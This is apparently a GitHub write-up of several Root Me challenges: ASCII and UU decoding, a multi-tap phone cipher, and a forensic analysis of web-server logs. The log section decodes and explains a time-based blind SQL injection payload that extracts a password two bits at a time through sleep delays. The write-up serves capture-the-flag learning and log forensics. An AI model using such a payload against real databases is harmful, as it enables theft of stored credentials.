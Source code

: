# Root Me
## Encodage - ASCII:
https://www.root-me.org/fr/Challenges/Cryptanalyse/Encodage-ASCII

We're provided an associated resource to complete the challenge: ![image](https://user-images.githubusercontent.com/60375020/144296644-fdb7ac8c-6eea-481b-b202-cea9ce7c03f2.png)

Beginning the challenge, we're redirected to http://challenge01.root-me.org/cryptanalyse/ch8/ch8.txt and are provided the following string: 4C6520666C6167206465206365206368616C6C656E6765206573743A203261633337363438316165353436636436383964356239313237356433323465.

Now we  just have to use the table provided to decode the string.

<details>
  <summary> 📣 FLAG SPOILER WARNING 📣 </summary> 
  
  This is the solution to the challenge, valued at 5 points. You might have to finish the rest.... 😉
  Can't go giving the true flag, now can I?
 
Le flag de ce challenge est: [Really long string]
</details>

## Encodage - UU:
https://www.root-me.org/fr/Challenges/Cryptanalyse/Encodage-UU

We're provided a PDF titled 'EN - Encodings format.pdf': https://repository.root-me.org/Cryptographie/EN%20-%20Encodings%20format.pdf?_gl=1*bhowco*_ga*Mzg3ODQ3ODc2LjE2MzgyNDAxMDg.*_ga_SRYSKX09J7*MTYzODM3ODQyOC45LjEuMTYzODM4NDM4Ny4w. 

Beginning the challenge, we're redirected to http://challenge01.root-me.org/cryptanalyse/ch1/ch1.txt. On this website, it gives us the following:
```
_=_ 
_=_ Part 001 of 001 of file root-me_challenge_uudeview
_=_ 

begin 644 root-me_challenge_uudeview
B5F5R>2!S:6UP;&4@.RD*4$%34R`](%5,5%)!4TE-4$Q%"@``
`
end
```
This is where the PDF resource really comes in handy. Flipping through, we can see it really breaks down UU Encoding and provides useful tables.
<details>
  <summary> 📣 FLAG SPOILER WARNING 📣 </summary> 
  
  This is the solution to the challenge, valued at 5 points. You might have to tweak the final result just a little.... 😉
  Can't go giving the true flag, now can I?
  
```
Very simple ;)
PASS = [This should be the password] 
```

</details>

## Analyse de logs - attaque web:
https://www.root-me.org/fr/Challenges/Forensic/Analyse-de-logs-attaque-web
We're given the following hint: 'Énoncé - Notre site web semble avoir été attaqué, mais notre administrateur système ne comprend pas les logs du serveur web. Pouvez-vous retrouver les données qui ont été exfiltrées?'
<details>
  <summary> 🇬🇧 Translation 🇬🇧 </summary> 
'Statement - Our website appears to have been attacked, but our system administrator does not understand the web server logs. Can you find the data that was exfiltrated?'
</details>

Beginning the challenge (http://challenge01.root-me.org/forensic/ch13/ch13.txt), we're able to see an access log. Looking at the first request we can see that it's using base64:
```
192.168.1.23 - - [18/Jun/2015:12:12:54 +0200] "GET /admin/?action=membres&order=QVNDLChzZWxlY3QgKGNhc2UgZmllbGQoY29uY2F0KHN1YnN0cmluZyhiaW4oYXNjaWkoc3Vic3RyaW5nKHBhc3N3b3JkLDEsMSkpKSwxLDEpLHN1YnN0cmluZyhiaW4oYXNjaWkoc3Vic3RyaW5nKHBhc3N3b3JkLDEsMSkpKSwyLDEpKSxjb25jYXQoY2hhcig0OCksY2hhcig0OCkpLGNvbmNhdChjaGFyKDQ4KSxjaGFyKDQ5KSksY29uY2F0KGNoYXIoNDkpLGNoYXIoNDgpKSxjb25jYXQoY2hhcig0OSksY2hhcig0OSkpKXdoZW4gMSB0aGVuIFRSVUUgd2hlbiAyIHRoZW4gc2xlZXAoMikgd2hlbiAzIHRoZW4gc2xlZXAoNCkgd2hlbiA0IHRoZW4gc2xlZXAoNikgZW5kKSBmcm9tIG1lbWJyZXMgd2hlcmUgaWQ9MSk%3D HTTP/1.1" 200 1005 "-" "-"
```
```
QVNDLChzZWxlY3QgKGNhc2UgZmllbGQoY29uY2F0KHN1YnN0cmluZyhiaW4oYXNjaWkoc3Vic3RyaW5nKHBhc3N3b3JkLDEsMSkpKSwxLDEpLHN1YnN0cmluZyhiaW4oYXNjaWkoc3Vic3RyaW5nKHBhc3N3b3JkLDEsMSkpKSwyLDEpKSxjb25jYXQoY2hhcig0OCksY2hhcig0OCkpLGNvbmNhdChjaGFyKDQ4KSxjaGFyKDQ5KSksY29uY2F0KGNoYXIoNDkpLGNoYXIoNDgpKSxjb25jYXQoY2hhcig0OSksY2hhcig0OSkpKXdoZW4gMSB0aGVuIFRSVUUgd2hlbiAyIHRoZW4gc2xlZXAoMikgd2hlbiAzIHRoZW4gc2xlZXAoNCkgd2hlbiA0IHRoZW4gc2xlZXAoNikgZW5kKSBmcm9tIG1lbWJyZXMgd2hlcmUgaWQ9MSk%3D
```
URL decoded:
```
QVNDLChzZWxlY3QgKGNhc2UgZmllbGQoY29uY2F0KHN1YnN0cmluZyhiaW4oYXNjaWkoc3Vic3RyaW5nKHBhc3N3b3JkLDEsMSkpKSwxLDEpLHN1YnN0cmluZyhiaW4oYXNjaWkoc3Vic3RyaW5nKHBhc3N3b3JkLDEsMSkpKSwyLDEpKSxjb25jYXQoY2hhcig0OCksY2hhcig0OCkpLGNvbmNhdChjaGFyKDQ4KSxjaGFyKDQ5KSksY29uY2F0KGNoYXIoNDkpLGNoYXIoNDgpKSxjb25jYXQoY2hhcig0OSksY2hhcig0OSkpKXdoZW4gMSB0aGVuIFRSVUUgd2hlbiAyIHRoZW4gc2xlZXAoMikgd2hlbiAzIHRoZW4gc2xlZXAoNCkgd2hlbiA0IHRoZW4gc2xlZXAoNikgZW5kKSBmcm9tIG1lbWJyZXMgd2hlcmUgaWQ9MSk=
```
base64 decoded:
```
ASC,(SELECT (CASE FIELD(concat(SUBSTRING(bin(ascii(SUBSTRING(password,1,1))),1,1),SUBSTRING(bin(ascii(SUBSTRING(password,1,1))),2,1)),concat(CHAR(48),CHAR(48)),concat(CHAR(48),CHAR(49)),concat(CHAR(49),CHAR(48)),concat(CHAR(49),CHAR(49)))WHEN 1 THEN TRUE WHEN 2 THEN sleep(2) WHEN 3 THEN sleep(4) WHEN 4 THEN sleep(6) END) FROM membres WHERE id=1)
```
This looks interesting; the commas indicate a blind SQL attack. Expanding this, we can see it clearly:
```SQL
SELECT (
        CASE FIELD (
                concat(
                        SUBSTRING(
                                bin(ascii(SUBSTRING(password,1,1))), 1, 1
                        ),
                        SUBSTRING(
                                bin(ascii(SUBSTRING(password,1,1))), 2, 1
                        )
                ),
                concat(CHAR(48),CHAR(48)), 00
                concat(CHAR(48),CHAR(49)), 01
                concat(CHAR(49),CHAR(48)), 10
                concat(CHAR(49),CHAR(49))  11
        )
        WHEN 1 THEN TRUE
        WHEN 2 THEN sleep(2)
        WHEN 3 THEN sleep(4)
        WHEN 4 THEN sleep(6)
        END
) FROM membres WHERE id=1
```
From this we can see that the attacker checks what's in the password field, bit by bit. It takes the first character from the password, converts it to a bin representation, takes the first two bits and then compares to '00', '01', '10' and '11' strings. If it's '00', then nothing happens. If it's '01', the query waits 2 seconds, if it's '10', the query waits 4 seconds and if it's '11', the query waits 6 seconds.

There's a 4th query which checks only one bit, so it's not as long. After 7 bits are rounded up, it becomes ASCII code.
```SQL
[18/Jun/2015:12:13:06 ASC,(
        SELECT (
                CASE FIELD (
                        concat(
                                SUBSTRING(
                                        bin(ascii(SUBSTRING(password,1,1))),7,1
                                )
                        ),
                        CHAR(48), 0
                        CHAR(49)  1
                )
                WHEN 1 THEN sleep(2)
                WHEN 2 THEN sleep(4)
        END) FROM membres WHERE id=1)

```
# Continue Editing here
## Steganomobile: 
https://www.root-me.org/en/Challenges/Steganography/Steganomobile

Before beginning the challenge, we're given a hint: 'After extraction of mobile data, the searcher, investigator have get this sequence of numbers. Maybe a phone number?'

Starting the challenge, we're redirected to (http://challenge01.root-me.org/steganographie/ch6/ch6.txt). 

From there, we can see we're given a string of numbers: 222-33-555-555-7-44-666-66-33.

The lets us know that we're looking at phone-related information and should be looking into mobile-type ciphers.
The first cipher that immediately pops into mind is the Multi-tap Phone (SMS). 
We can easily look for a Multi-tap decoder online. The first one I'm able to find is https://www.dcode.fr/multitap-abc-cipher.

All I have to do is copy and paste the string of characters into the 'MULTI-TAP MOBILE PHONE CIPHERTEXT' section, and it gives you the password on the left side of the website, under 'Results'.

![image](https://user-images.githubusercontent.com/60375020/144178572-d1b3371a-7159-432b-83d9-db4350cd0ba8.png)

<details>
  <summary> 📣 FLAG SPOILER WARNING 📣 </summary> 
  
  This is the solution to the challenge, valued at 10 points. You might have to tweak the final result just a little.... 😉
  Can't go giving the true flag, now can I?
 
![image](https://user-images.githubusercontent.com/60375020/144179099-6c5c4c75-d8d3-4340-848d-826cdae62c01.png)
</details>
